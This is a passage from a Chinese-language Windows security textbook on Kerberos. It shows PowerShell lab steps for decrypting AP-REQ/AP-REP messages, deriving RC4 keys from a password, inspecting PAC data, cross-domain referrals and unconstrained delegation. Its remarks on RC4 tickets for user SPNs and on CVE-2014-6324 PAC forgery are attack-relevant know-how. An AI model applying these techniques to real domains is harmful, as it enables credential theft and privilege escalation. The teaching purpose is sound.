注意，票证中包含了*密钥版本号* ❻。当用户或计算机更改其密码时，共享的加密密钥也必须更改。为了确保系统选择正确的密钥，它将该版本号与基于密码派生的密钥一起存储，并在每次密钥更改时递增。在此情况下，版本号为 1，这意味着计算机从未更改过密码。

密钥版本号的存在表明该票证是用长生命周期的共享加密密钥加密的。缺少版本号则表示票证是用先前协商的会话密钥加密的。由于我们正在查看作为身份验证过程一部分发送给服务的第一条消息，客户端和服务目前不共享任何会话密钥，因此客户端必须使用计算机的共享加密密钥。

加密的密文紧随密钥信息之后。由于我们不知道加密密钥，无法解密它。紧接在票证之后的是认证器❼，它也首先列出了密钥信息。请注意，缺少密钥版本号；这里没有版本号是因为认证器是用票证内的会话密钥加密的。

> 注意
> 
> *在这种情况下，由于我们生成了一个针对当前运行计算机的票证，我们可以通过直接访问内存或从注册表中的 MACHINE.ACC$ LSA 机密提取计算机账户的加密密钥。这个过程超出了本章的范围。*

我们可以通过将客户端身份验证令牌传递给服务器身份验证上下文来完成身份验证过程，方式与在第十三章中使用 NTLM 身份验证时相同。清单 14-3 展示了这一点。

```
PS> **$credin = New-LsaCredentialHandle -Package "Kerberos" -UseFlag Inbound**
PS> **$server = New-LsaServerContext -CredHandle $credin**
PS> **Update-LsaServerContext -Server $server -Token $client.Token**
Exception calling "Continue" with "1" argument(s):
"(0x8009030C) - The logon attempt failed" 
```

清单 14-3：完成 Kerberos 身份验证

我们设置了服务器身份验证上下文，然后使用客户端的身份验证令牌更新该上下文。然而，当我们调用Update-LsaServerContext PowerShell 命令时，身份验证失败并返回错误。也许这不应令人感到特别惊讶。只有*本地系统*用户才能直接访问用于<	samp class="SANS_TheSansMonoCd_W5Regular_11">HOST SPN 的计算机账户的共享加密密钥。因此，当 LSA 验证 AP-REQ 时，它无法解密该信息，并返回错误。

我们能找到一个可以本地协商的 SPN 吗？Windows 指定了一个 RestrictedKrbHost 服务类。具有此服务类的本地计算机的 SPN 映射到计算机帐户，因此票证再次使用计算机帐户的密钥进行加密。然而，LSA 特殊处理此服务类，并允许系统上的任何用户解密它，不像 HOST。当我们将命令更改为使用受限服务类时，我们得到了在 清单 14-4 中显示的输出。

```
PS> **$credout = New-LsaCredentialHandle -Package "Kerberos" -UseFlag Outbound**
❶ PS> **$spn = "RestrictedKrbHost/$env:COMPUTERNAME"**
PS> **$client = New-LsaClientContext -CredHandle $credout -Target $spn**
PS> **Format-LsaAuthToken -Token $client.Token**
<KerberosV5 KRB_AP_REQ>
Options         : None
<Ticket>
Ticket Version  : 5
❷ ServerName      : SRV_INST - RestrictedKrbHost/GRAPHITE
`--snip--`

PS> **$credin = New-LsaCredentialHandle -Package "Kerberos" -UseFlag Inbound**
PS> **$server = New-LsaServerContext -CredHandle $credin**
PS> **Update-LsaServerContext -Server $server -Token $client.Token**
PS> **Use-NtObject($token = Get-LsaAccessToken $server) {**
   **Get-NtLogonSession $token | Format-Table**
**}**
❸ LogonId           UserName      LogonType SessionId
-------           --------      --------- ---------
00000000-01214E12 MINERAL\alice Network   0 
```

清单 14-4：使用 RestrictedKrbHost SPN 进行身份验证

在这里，我们将 SPN 更改为使用当前计算机名称的 RestrictedKrbHost 服务类 ❶。然后，按照清单 14-2 和 14-3 完成身份验证。请注意 AP-REQ 消息中提供的 SPN 变更 ❷。这次，当我们更新服务器身份验证上下文时，操作成功，因此我们可以提取生成的 Token 对象并显示登录会话 ❸。

在 清单 14-5 中，我们测试了双向身份验证并查看了返回的 AP-REP 消息。

```
❶ PS> **$client = New-LsaClientContext -CredHandle $credout**
**-Target "RestrictedKrbHost/$env:COMPUTERNAME" -RequestAttribute MutualAuth**
PS> **Format-LsaAuthToken -Token $client.Token**
<KerberosV5 KRB_AP_REQ>
❷ Options         : MutualAuthRequired
`--snip--`

PS> **$server = New-LsaServerContext -CredHandle $credin**
PS> **Update-LsaServerContext -Server $server -Token $client.Token**
PS> **$ap_rep = $server.Token**
PS> **$ap_rep | Format-LsaAuthToken**
❸ <KerberosV5 KRB_AP_REP>
<Encrypted Part>
❹ Encryption Type : AES256_CTS_HMAC_SHA1_96
Cipher Text     :
00000000: 32 E1 3F FC 25 70 51 29 51 AE 4E AC B9 BD 58 72
`--snip--` 
```

清单 14-5：启用双向身份验证

我们通过在创建客户端身份验证上下文时指定 MutualAuth 请求属性标志来启用双向身份验证 ❶。在 AP-REQ 消息中，我们看到设置了 MutualAuthRequired 标志 ❷，这要求服务返回一个 AP-REP 消息。当我们格式化服务器的身份验证令牌时，我们看到 AP-REP 消息，其中仅包含加密值 ❸。加密密钥信息 ❹ 没有密钥版本号，因为这是通过会话密钥加密的，而不是共享加密密钥。

### 解密 AP-REQ 消息

一旦我们收到 AP-REQ 消息，我们就想解密它。但到目前为止，我们在示例中加密了所有票证，使用的是从计算机密码派生的密钥。虽然我们可能能够提取此密码以用于解密操作，但这样做需要额外的工作。我们如何以最少的努力解密 AP-REQ 消息的票证呢？

一种方法是指定一个 SPN，使得 TGS 使用我们自己的密码。然后，我们可以基于我们控制的帐户密码推导出加密密钥来解密票据。您可以使用 setspn 工具或 Set-ADUser PowerShell 命令将 SPN 添加到用户帐户中。您需要作为域管理员执行此操作，否则您将无法访问必要的 Active Directory 来进行配置。以下命令将 SPN HTTP/graphite 添加到 *alice* 用户：

```
PS> **Set-ADUser -Identity alice -ServicePrincipalNames @{Add="HTTP/graphite"}** 
```

您还可以通过将 Add 更改为 Remove 来使用此命令删除 SPN。SPN 几乎可以是任意的，但最好遵循已知的服务类和主机的最佳实践。

我们现在可以运行脚本，通过新的 SPN 执行身份验证。列表 14-6 显示了生成的 AP-REQ。

```
PS> **$credout = New-LsaCredentialHandle -Package "Kerberos" -UseFlag Outbound**
PS> **$client = New-LsaClientContext -CredHandle $credout -Target** 
**"HTTP/graphite"**
PS> **Format-LsaAuthToken -Token $client.Token**
<KerberosV5 KRB_AP_REQ>
Options         : None
<Ticket>
Ticket Version  : 5
Server Name     : SRV_INST - HTTP/graphite
Realm           : MINERAL.LOCAL
Encryption Type : ARCFOUR_HMAC_MD5
Key Version     : 3
Cipher Text     :
00000000: 1A 33 03 E3 04 47 29 99 AF B5 E0 5B 6A A4 B0 D9
00000010: BA 7E 9F 84 C3 BD 09 62 57 B7 FB F7 86 3B D7 08
`--snip--`
00000410: AF 74 71 23 96 D6 30 01 05 9A 89 D7
<Authenticator>
Encryption Type : ARCFOUR_HMAC_MD5
Cipher Text     :
00000000: 72 30 A1 25 F1 CC DD B2 C2 7F 61 8B 36 F9 37 B5
00000010: 0C D8 17 6B BB 60 D3 04 6E 3A C4 67 68 3D 90 EE
`--snip--`
00000180: 5E 91 16 3A 5F 7B 96 35 91 
```

列表 14-6：HTTP/graphite SPN 的 AP-REQ

如果你检查这个输出，你会发现变化不大，但至少可以确认该票据与我们指定的 SPN 相关。这意味着我们可以请求与该用户相匹配的服务的票据。另一个变化是加密类型现在是 RC4，而不是 AES。这是由于 Windows 中 Kerberos 的一个奇怪行为：当 SPN 被分配给用户时，加密类型默认为 RC4。这对我们来说是个好消息，因为 RC4 要比 AES 更容易解密，正如你很快会看到的那样。另请注意，密钥版本号已设置，表示该票据是使用共享加密密钥加密的。

在我们可以解密这个票据之前，需要为加密算法生成一个密钥。生成 RC4 密钥很简单：我们只需计算基于的 Unicode 密码的 MD4 哈希值。我们之前见过这个操作：这个密钥与 NTLM 中使用的 NT 哈希值相同，这并非巧合。当微软将 RC4 算法引入 Kerberos 时，它使用 NT 哈希来支持现有用户，而不要求他们更新密码以生成新的加密密钥。使用 RC4 算法还可以规避涉及加密技术出口限制的困难。

如果我们提供用户的密码，我们可以使用 Get-KerberosKey PowerShell 命令生成 RC4 Kerberos 密钥，如列表 14-7 所示。

```
PS> **$key = Get-KerberosKey -Password "****`AlicePassw0rd`****" -KeyType ARCFOUR_HMAC_MD5**
**-NameType SRV_INST -Principal "HTTP/graphite@mineral.local"**
PS> **$key.Key | Out-HexDump**
C0 12 36 B2 39 0B 9E 82 EE FD 6E 8E 57 E5 1C E1 
```

列表 14-7：为 SPN 生成 RC4 Kerberos 密钥

请注意，您必须使用运行示例时的有效用户帐户密码。

我们现在可以将 AP-REQ 身份验证令牌和密钥传递给 Unprotect-LsaAuthToken PowerShell 命令来解密票证和身份验证器。通过将解密后的身份验证令牌传递给 Format-LsaAuthToken 命令，我们可以显示未保护的信息。由于解密后的票证相当大，我们将分部分检查它，从示例 14-8 开始。

```
PS> **$ap_req = Unprotect-LsaAuthToken -Token $client.Token -Key $key**
PS> **$ap_req | Format-LsaAuthToken**
<KerberosV5 KRB_AP_REQ>
Options         : None
<Ticket>
Ticket Version  : 5
Server Name     : SRV_INST - HTTP/graphite
Realm           : MINERAL.LOCAL
Flags           : Forwardable, Renewable, PreAuthent, EncPARep
❶ Client Name     : PRINCIPAL - alice
Client Realm    : MINERAL.LOCAL
❷ Auth Time       : 5/12 5:37:40 PM
Start Time      : 5/12 5:43:07 PM
End Time        : 5/13 3:37:40 AM
Renew Till Time : 5/19 5:37:40 PM 
```

示例 14-8：基本的解密票证信息

未加密的票证从 Realm 值开始。接下来大部分是记录信息，包括表示发生了预身份验证的标志（PreAuthent）。Forwardable 标志与委托有关，这是我们将在第 479 页的“Kerberos 委托”中讨论的话题。票证还包含正在进行身份验证的用户的 SPN ❶。由于 *alice* 用户请求了 HTTP/graphite 服务的票证，因此正在进行身份验证的是该用户的信息。接下来，我们看到票证有一个有限的有效期，在这种情况下基于身份验证时间 ❷ 和结束时间，使其有效期大约为 10 小时。当票证过期时，客户端可以续订它，续订时间为五天。（Renewable 标志编码了关于续订票证能力的信息。）

示例 14-9 显示了票证的下一个组件：随机生成的会话密钥。

```
<Session Key>
Encryption Type : ARCFOUR_HMAC_MD5
Encryption Key  : 27BD4DE38A47B87D08E03500DF116AB5 
```

示例 14-9：票证会话密钥

此会话密钥用于加密身份验证器。客户端和服务器还可能使用它来加密和验证它们传输的任何后续密钥或数据。

之后是一个授权数据值列表，服务器可以使用这些值来确定客户端用户的安全属性。最重要的是 PAC，它包含接收的 Windows 系统需要构建用户的 Token 对象的所有信息。PAC 本身被分为多个部分。示例 14-10 包含其登录信息。

```
<Authorization Data - AD_WIN2K_PAC>
<PAC Entry Logon>
<User Information> ❶
Effective Name   : alice
Full Name        : Alice Roberts
User SID         : S-1-5-21-1195776225-522706947-2538775957-1110
Primary Group    : MINERAL\Domain Users
Primary Group SID: S-1-5-21-1195776225-522706947-2538775957-513
<Groups> ❷
MINERAL\Domain Users            - Mandatory, EnabledByDefault, Enabled
<Resource Groups> ❸
Resource Group   : S-1-5-21-1195776225-522706947-2538775957 ❹
MINERAL\Local Resource          - Mandatory, EnabledByDefault, Enabled, Resource
<Extra Groups> ❺
NT AUTHORITY\Claims Valid       - Mandatory, EnabledByDefault, Enabled
Authentication authority asserted identity - Mandatory, EnabledByDefault, Enabled
<Account Details> ❻
Logon Time       : 5/12 5:37:15 PM
Password Last Set: 5/8 11:07:55 AM
Password Change  : 5/9 11:07:55 AM
Logon Count      : 26
Bad Password #   : 0
Logon Server     : PRIMARYDC
Logon Domain     : MINERAL
Logon Domain SID : S-1-5-21-1195776225-522706947-2538775957 ❼
User Flags       : ExtraSidsPresent, ResourceGroupsPresent
User Account Cntl: NormalAccount, DontExpirePassword
Session Key      : 00000000000000000000000000000000 ❽ 
```

示例 14-10：登录 PAC 条目

登录 PAC 条目遵循 Windows 2000 之前 Netlogon 协议使用的格式。它以基本的用户信息 ❶ 开始，例如用户的名称、SID 和主组。接下来是组成员资格列表，分为三部分：域组 ❷、资源组 ❸ 和额外组 ❺。对于每个组，显示其 SID（如果已知，则格式化为名称）和应应用于它的属性。由于大小原因，域和资源组的 SID 仅使用最后的 RID 值存储。完整的 SID 通过将此 RID 添加到登录域 SID ❼ 或资源组 SID ❹ 来推导出。额外组列表存储完整的 SID，因此可以包含具有不同前缀的 SID。

在组信息之后，是关于用户的额外记账信息，例如他们上次登录的时间和密码更改时间 ❻。此部分还包括认证用户的服务器和域的信息，包括域名和 SID。用户标志显示额外组和资源组存在于票证中。用户帐户控制标志表示帐户的属性（在这种情况下，用户的密码不会过期）。

最后，存在一个全零的空会话密钥 ❽。只有在 KDC 没有直接认证用户而是使用其他认证协议（如 NTLM）时，你才会找到一个非空的会话密钥。在这种情况下，那个子认证协议的会话密钥会显示在这里；然而，在大多数情况下，它将为空。

列表 14-11 显示了下一个 PAC 条目，其中包含用户的声明属性。

```
<PAC Entry UserClaims>
<ActiveDirectory Claim>
ad://ext/cn:88d7f6d41914512a - String - Alice Roberts
ad://ext/country:88d7f5009d9f2815 - String - US
ad://ext/department:88d7f500a308c4a9 - String - R&D 
```

列表 14-11：用户声明 PAC 条目

如第四章所述，Token 对象将这些用户声明作为安全属性暴露出来，并且它们通常通过中央访问策略在访问控制过程中发挥作用。如果目标 SPN 是计算机帐户而不是用户帐户，则 Kerberos 票证还将以设备组和设备声明的形式包含有关客户端设备的信息，如列表 14-12 所示。

```
<PAC Entry Device>
Device Name      : MINERAL\GRAPHITE$
Primary Group    : MINERAL\Domain Computers
<Groups>
MINERAL\Domain Computers       - Mandatory, EnabledByDefault, Enabled
<Domain Groups>
NT AUTHORITY\Claims Valid      - Mandatory, EnabledByDefault, Enabled
<Extra Groups>
Authentication authority asserted identity - Mandatory, EnabledByDefault, Enabled

<PAC Entry DeviceClaims>
<ActiveDirectory Claim>
ad://ext/cn:88d7f6d41914512a - String - GRAPHITE
ad://ext/operatingSystem:88d7f6d534791d12 - String - Windows Enterprise 
```

列表 14-12：设备组和设备声明的 PAC 条目

与用户声明一样，这些通常只会在中央访问策略中使用。列表 14-13 显示了额外的记账条目。

```
<PAC Entry ClientInfo>
Client ID        : 5/12 5:37:40 PM
Client Name      : alice

<PAC Entry UserPrincipalName>
Flags            : None
Name             : alice@mineral.local
DNS Name         : MINERAL.LOCAL 
```

列表 14-13：客户端信息和 UPN PAC 条目

Client ID 字段应与用户的认证时间匹配。

列表 14-14 显示了应用于 PAC 数据的几个签名，以确保数据没有被篡改。没有这些签名，用户可能会伪造自己的 PAC，添加他们希望 LSA 在其 Token 对象中放置的任何组。

```
<PAC Entry ServerChecksum>
Signature Type   : HMAC_MD5
Signature        : 7FEA93110C5E193734FF5071ECC6B3C5

<PAC Entry KDCChecksum>
Signature Type   : HMAC_SHA1_96_AES_256
Signature        : 9E0689AF7CFE1445EBACBF88

<PAC Entry TicketChecksum>
Signature Type   : HMAC_SHA1_96_AES_256
Signature        : 1F97471A222BBCDE8EC717BC 
```

列表 14-14：PAC 签名

第一个签名覆盖整个 PAC。然而，由于签名字段嵌入在 PAC 中，它们在签名计算过程中被替换为零。此签名是使用用于加密票证的共享密钥生成的。

第二个签名用于验证服务器签名是否由 KDC 发出。此签名仅覆盖服务器，并使用*krbtgt*用户的加密密钥。为了验证签名，服务器需要将其发送到 KDC，因为它不知道加密密钥。出于性能考虑，当服务器以特权用户身份（如*SYSTEM*）运行时，通常不会执行此验证。

最终签名是从整个票证中计算得出的，其中去除了 PAC。用于签名的加密密钥是*krbtgt*用户的密钥。这个签名允许 KDC 检测票证是否被篡改，而服务器签名无法覆盖这一点，因为它仅验证 PAC。

> 注意
> 
> *Windows 曾面临多个与 PAC 签名验证相关的安全问题。最著名的是 CVE-2014-6324，它发生的原因是 TGS 接受 CRC32 作为有效的签名机制。由于 CRC32 在加密上不安全且可以轻松暴力破解，攻击者可以创建一个有效的 PAC，包含他们想要的任何组，包括完整的域管理员组。*

列表 14-15 展示了解密后的 AS-REQ 消息的最后一个组件——认证器。

```
<Authenticator>
Client Name     : PRINCIPAL - alice
Client Realm    : MINERAL.LOCAL
Client Time     : 5/13 2:15:03 AM
❶ Checksum        : GSSAPI
Channel Binding : 00000000000000000000000000000000
Context Flags   : None
❷ <Sub Session Key>
Encryption Type : ARCFOUR_HMAC_MD5
Encryption Key  : B3AC3B1C31937088B7B1BC880B10950E
❸ Sequence Number : 0x7DDD0DBA
❹ <Authorization Data - AD_ETYPE_NEGOTIATION>
AES256_CTS_HMAC_SHA1_96, AES128_CTS_HMAC_SHA1_96, ARCFOUR_HMAC_MD5 
```

列表 14-15：解密后的 AS-REQ 认证器

认证器包含一些基本的用户信息，以及一个时间戳，表示它是在客户端创建的时间，可以用来确认请求是近期的且未被重放到服务中。

你可能会注意到一个奇怪的地方，就是出现了一个Checksum字段，但它似乎不包含有效的加密哈希❶。这是因为认证器将这个字段重新用于存储额外的信息，正如GSSAPI类型值所示。默认情况下，如果指定了，它包含连接的通道绑定以及一些附加的标志。在这种情况下，没有设置通道绑定，所以Channel Binding字段包含全零。如果你像使用 NTLM 时那样指定ChannelBinding参数，该字段会类似如下：

```
Channel Binding : BAD4B8274DC394EDC375CA8ABF2D2AEE 
```

验证器包含一个子会话密钥❷，该密钥可以在连接中继续使用。它还包含一个随机生成的序列号❸，该序列号与时间戳一起，可以防止重放攻击，防止使用相同的票据和验证器进行攻击。最后，验证器还可以包含额外的授权数据❹。在此情况下，数据指定了AD_ETYPE_NEGOTIATION类型，允许连接尝试将加密算法从 RC4 升级为 AES 加密格式之一。

在列表 14-15 中使用的GSSAPI类型值代表了*通用安全服务应用程序编程接口（GSSAPI）*，这是一个实现网络身份验证协议的通用 API。您可以在 Linux 或 macOS 上使用 GSSAPI 代替 SSPI 来执行 Kerberos 身份验证。RFC2743 和 RFC2744 定义了 GSSAPI 的当前版本，而 RFC4121 定义了该协议的 Kerberos 特定实现。

SSPI 与 GSSAPI 基本兼容，通常可以在网络协议文档中看到提到使用 GSSAPI 函数名称，尤其是在加密和签名方面。例如，在 GSSAPI 中加密和解密数据时，分别使用GSS_Wrap和GSS_Unwrap函数，而不是 SSPI 中的EncryptMessage和DecryptMessage API。类似地，在生成和验证签名时，应该使用GSS_GetMIC和GSS_VerifyMIC，而不是MakeSignature和VerifySignature。由于本书主要讨论 Windows 安全性，我们将不再深入探讨 GSSAPI 的细节。

### 解密 AP-REP 消息

一旦我们解密了 AP-REQ 消息的票据和验证器，我们就得到了用于解密 AP-REP 以进行相互身份验证的密钥。在列表 14-16 中我们完成了这个过程。

```
PS> **$sesskey = (Unprotect-LsaAuthToken -Token $ap_req -Key $key).Ticket.Key**
PS> **Unprotect-LsaAuthToken -Token $ap_rep -Key $sesskey | Format-LsaAuthToken**
<KerberosV5 KRB_AP_REP>
<Encrypted Part>
Client Time      : 05-14 01:48:39
<Sub Session Key>
Encryption Type : AES256_CTS_HMAC_SHA1_96
Encryption Key  : 76F0794F1F3B8CE10C38CFA98BF74AF5229C7F626110C6302E4B8780AE91FD3A
Sequence Number : 0x699181B8 
```

列表 14-16：解密 AP-REP 消息

我们首先需要从解密后的 AP-REQ 票据中获取会话密钥。有了该密钥，我们可以再次使用Unprotect-LsaAuthToken解密 AP-REP。在输出中，您可以看到新协商的会话密钥；在此案例中，它已从 RC4 升级为 AES 密钥。它还包括一个序列号，以防止重放攻击。

接下来，我们将探讨与 Kerberos 服务身份验证相关的另一个话题：它如何跨域信任边界工作。

### 跨域身份验证

在讨论第十章中的域森林时，我提到了信任关系的概念，其中一个受信域接受存储在另一个域中的用户配置信息作为凭据。本节讨论 Kerberos 协议如何在同一森林中的域之间工作。尽管 Kerberos 身份验证也可以在不同森林之间发生，并且支持非 Windows 的 Kerberos 实现，但我们这里不讨论这些复杂的情况。

图 14-6 展示了示例*MINERAL*域与*SALES*域之间跨域 Kerberos 身份验证的基本操作。


图 14-6：跨域 Kerberos 身份验证概览

*MINERAL*域中的客户端首先请求HTTP/WEB.SALES SPN 的服务票据❶。由于 SPN 不在其自己的域中，TGS 无法满足此请求。它检查全局目录，查看森林中是否有其他域配置了该 SPN，并在*SALES*域中找到了它。

然后，TGS 检查它是否与*SALES*域有信任关系，结果是有的。当两个域之间建立新的信任关系时，会在每个域的域控制器之间配置共享的 Kerberos 密钥。该密钥加密一个*推荐票据*，其中包含用户的信息和请求的服务，并将其返回给客户端❷。客户端随后将推荐票据转发到*SALES*域中的 TGS❸。由于票据是使用共享的跨域密钥加密的，*SALES* TGS 可以解密该票据以验证其内容。

*SALES* TGS 需要修改推荐票据中提供的 PAC，基于用户现有的组，添加属于*SALES*域的本地域组成员资格。然后，TGS 会重新签名修改后的 PAC，并将其插入到服务票据中供本地服务使用。它现在可以为HTTP/WEB.SALES颁发服务票据，并使用服务的密钥将其返回给客户端❹。

> 注意
> 
> *在复杂的跨域信任关系中，域不应信任 PAC 中包含的任何附加 SID，因为攻击者如果入侵了源域，可能会生成包含任意 SID 的 PAC，然后危及目标* *域。Windows 实现了 SID 过滤机制，以删除 PAC 中被认为危险的 SID，例如任何本地域的 SID。SID 过滤的详细信息超出了本书的范围。*

最终，客户端可以使用服务票据向*SALES*域的服务进行身份验证❺。接收服务票据的服务器可以利用它根据其域的 TGS 生成的修改后的 PAC 构建令牌。

如果域之间没有直接的信任关系，它们可能需要多次重复发放推荐票据的过程。例如，回到第十章中的域示例，如果*ENGINEERING*域中的用户希望认证到*SALES*域中的服务，则根域*MINERAL*首先需要发放一个推荐票据。然后，该票据可以用于为*SALES*域建立推荐票据。

在由多个域和树组成的更复杂的森林中，这种多跳转推荐过程可能会导致性能下降。为了解决这个问题，Windows 提供了一种机制，可以在森林中的任何两个域之间建立*快捷信任*关系。这些域可以利用此信任关系建立推荐票据，而无需遵循正常的传递信任路径。

我们已经介绍了 Kerberos 认证的基础知识。接下来让我们深入探讨更复杂的话题，首先讨论经过认证的用户如何安全地将他们的凭据转发给服务。

### Kerberos 委派

*委派*使得一个服务能够将用户的凭据转发到另一个服务。这是有用的，因为，当用户通过 Kerberos 连接到一个服务时，他们不会向其提供自己的凭据。相反，他们提供一个使用服务器共享加密密钥加密的票据。服务可以尝试将票据转发到另一个服务，但由于它不知道新服务的共享加密密钥，它将无法加密票据，因此新服务将无法接受该票据。

获取新服务的加密票据的唯一方法似乎是使用 TGT 向 TGS 发送 TGS-REQ 消息。然而，原始服务只有自己的 TGT，而没有用户的 TGT，没有用户的 TGT，服务无法将用户的凭据转发到指定的服务。这种行为提供了一个重要的安全措施；如果用户对某个服务的认证能够被委托给另一个服务，可能会很容易获取对域的完全管理员访问权限。

也就是说，转发凭据是一个有用的功能。例如，假设你有一个公司网络，用户只能通过外部网络访问该网络，通常是通过一个 Web 服务器。如果 Web 服务器能够提供用户的凭据以访问后端系统，比如数据库服务器，那将非常有用。解决这个问题的一种方法是让 Web 服务器请求用户的明文凭据，然后用这些凭据进行域认证，之后域会提供用户的 TGT。然而，在实际操作中，这对于安全性来说是一个糟糕的主意。

因此，为了使安全地转发凭证成为可能，Kerberos 实现了一个定义的委派过程。客户端可以选择加入委派，允许目标服务使用他们的身份代表他们请求其他网络服务的票证。Windows 域为用户和计算机按帐户配置委派。在 GUI 中，您将在检查帐户属性时看到图 14-7 中显示的委派对话框。



图 14-7：用于 GRAPHITE 计算机帐户的委派标签

图 14-7 显示了三种主要的委派选项。第一种选项，即默认选项，禁用帐户的委派。第二种选项，被称为 *不受限委派*，允许帐户使用认证用户的凭证将委派到网络上的任何其他服务。第三种选项，称为 *受限委派*，允许将用户的凭证委派到由允许的 SPN 列表定义的固定服务集合。

让我们深入探讨两种委派类型之间的相似性和差异，并查看它们是如何实现的。在接下来的部分中，我们将修改 Active Directory 服务器中的一些委派设置。这意味着您必须从具有 SeEnableDelegationPrivilege 权限的用户帐户执行这些操作。通常，只有管理员才具有此权限，因此您应该以域管理员身份运行这些示例。

#### 不受限委派

微软在 Windows 2000 中引入了不受限的委派功能，并与原始的 Windows Kerberos 实现一起推出。这个 Kerberos 委派机制要求客户端选择加入提供其 TGT 的副本，从而使服务能够委派他们的凭证。它仅与 Kerberos 认证一起工作，因为用户必须先使用 Kerberos 协议通过认证服务进行身份验证。图 14-8 概述了不受限的委派过程。



图 14-8：不受限的委派过程

该图显示了一个客户端通过服务器 *WEB* 上的 HTTP 服务将其凭证委派到服务器 *DB* 上的数据库服务。客户端首先使用其 TGT 向 TGS 发起请求，获取普通票证，并使用 HTTP/WEB.MINERAL SPN ❶。如果目标服务可以使用委派，返回的票证应设置 OkAsDelegate 标志，这表示客户端可以选择是否委派凭证。

客户端然后会发起第二次请求，获取一个新的 TGT 发送给 HTTP 服务。客户端通过将目标主体名称指定为 *krbtgt* 用户，并在 TGS-REQ ❷ 上设置 Forwardable 和 Forwarded 标志，来表明它的意图。如果允许委派，TGS 将把这个新的 TGT 返回给客户端。

客户端随后可以将原始服务票证和 TGT 打包到 AP-REQ 消息中，发送给服务器，并通过 HTTP ❸ 传输。AP-REQ 消息还必须包含加密 TGT 的会话密钥信息，以便目标服务能够解密它。Windows API 在委派凭证时启用相互认证，因此服务器会向客户端返回 AP-REP ❹。

一旦 HTTP 服务接收到 AP-REQ，它可以获取 LSA 给该用户的令牌。LSA 还会将 TGT 和会话密钥信息保存在新的登录会话中。当 HTTP 服务想要对数据库服务进行认证时，它可以模拟该用户的令牌，并启动 Kerberos 认证过程。这意味着用户的 TGT 将用于从 TGS 请求 SQL/DB.MINERAL 的票证 ❺。假设服务满足所有策略要求，TGS 将返回服务票证 ❻，LSA 将返回一个新的 AP-REQ，并将其传递给数据库服务 ❼，完成委派。

由于委派的 TGT 是通过 AP-REQ 消息发送的，我们应该能够检查在 PowerShell 中本地认证期间发生的委派过程。进行认证的用户需要一个注册的 SPN。我们将使用 *alice* 用户，之前在“解密 AP-REQ 消息”第 469 页为其添加了 SPN。首先，我们必须为此用户启用不受约束的委派。你可以使用 GUI 启用委派，或者作为域管理员运行以下 Set-ADAccountControl PowerShell 命令：

```
PS> **Set-ADAccountControl -Identity alice -TrustedForDelegation $true** 
```

你可以使用 Get-ADUser 或 Get-ADComputer 命令（根据账户类型）来验证是否已启用委派，如 列表 14-17 所示。

```
PS> **Get-ADUser -Identity alice -Properties TrustedForDelegation |**
**Select-Object TrustedForDelegation**
TrustedForDelegation
--------------------
                True 
```

列表 14-17：查询用户的 TrustedForDelegation 属性

现在让我们创建一个客户端身份验证上下文，并请求带有委派票证的 AP-REQ 消息（列表 14-18）。

```
PS> **$credout = New-LsaCredentialHandle -Package "Kerberos" -UseFlag Outbound**
❶ PS> **$client = New-LsaClientContext -CredHandle $credout -Target** 
**"HTTP/graphite"-RequestAttribute MutualAuth, Delegate**
PS> **$key = Get-KerberosKey -Password "AlicePassw0rd" -KeyType ARCFOUR_HMAC_MD5**
**-NameType SRV_INST -Principal "HTTP/graphite@mineral.local"**
PS> **Unprotect-LsaAuthToken -Token $client.Token -Key $key |** 
**Format-LsaAuthToken**
<KerberosV5 KRB_AP_REQ>
Options         : MutualAuthRequired
<Ticket>
Ticket Version  : 5
Server Name     : SRV_INST - HTTP/graphite
Realm           : MINERAL.LOCAL
❷ Flags           : Forwardable, Renewable, PreAuthent, OkAsDelegate, EncPARep
`--snip--` 
```

列表 14-18：请求 AP-REQ 并显示委派票证

我们必须同时指定 MutualAuth 和 Delegate 标志 ❶，以便 LSA 请求委托的 TGT。请注意，在生成的票证中会设置 OkAsDelegate 标志 ❷。无论客户端是否请求委托，该标志始终存在，因为 LSA 会将其与委托请求属性结合使用，以决定是否请求 TGT。

认证器将新的 TGT 存储为 GSSAPI 校验和的一部分，如 列表 14-19 中所示。

```
<Authenticator>
Client Name     : PRINCIPAL - alice
Client Realm    : MINERAL.LOCAL
Client Time     : 5/15 1:51:00 PM
Checksum        : GSSAPI
Channel Binding : 00000000000000000000000000000000
❶ Context Flags   : Delegate, Mutual
Delegate Opt ID : 1
<KerberosV5 KRB_CRED>
❷ <Ticket 0>
Ticket Version  : 5
❸ Server Name     : SRV_INST - krbtgt/MINERAL.LOCAL
Realm           : MINERAL.LOCAL
Encryption Type : AES256_CTS_HMAC_SHA1_96
Key Version     : 2
Cipher Text     :
00000000: 49 FA B2 17 34 F9 0F D6 0C DE A3 67 54 9E 74 B7
00000010: 4E 1B 18 DC 91 40 F1 91 DC 42 37 64 CC 39 56 78
`--snip--`
000005D0: E5 D5 99 FD 15 2B
❹ <Encrypted Part>
Encryption Type : AES256_CTS_HMAC_SHA1_96
Cipher Text     :
00000000: 3B 25 F6 CA 18 B4 E6 D4 C0 77 07 66 73 0E 67 9C
`--snip--` 
```

列表 14-19：带有委托 TGT 的 AP-REQ 认证器

如果你将这个认证器与 列表 14-15 中显示的认证器进行比较，第一个你应该注意到的区别是，Delegate 和 Mutual 上下文标志都已设置 ❶。

Delegate 标志表示一个 *Kerberos 凭证 (KRB-CRED)* 结构被打包到 Checksum 字段中。在 KRB-CRED 中，我们找到了 TGT 票证 ❷。我们可以确定它是 TGT，因为它属于 *krbtgt* 主体 ❸。KRB-CRED 结构还包含一个额外的加密部分，用于保存与 TGT 相关联的会话密钥 ❹。

如果我们能够完成认证，就可以接收到一个假冒令牌。LSA 现在拥有足够的信息，允许服务代表提供委托 TGT 的用户请求任何服务票证，正如在 列表 14-20 中所展示的那样。

```
PS> **$credin = New-LsaCredentialHandle -Package "Kerberos" -UseFlag Inbound**
PS> **$server = New-LsaServerContext -CredHandle $credin**
PS> **Update-LsaServerContext -Server $server -Client $client**
PS> **Use-NtObject($token = Get-LsaAccessToken $server) {**
    **Format-NtToken $token -Information**
**}**
TOKEN INFORMATION
-----------------
Type       : Impersonation
Imp Level  : Delegation
`--snip--` 
```

列表 14-20：完成委托认证过程

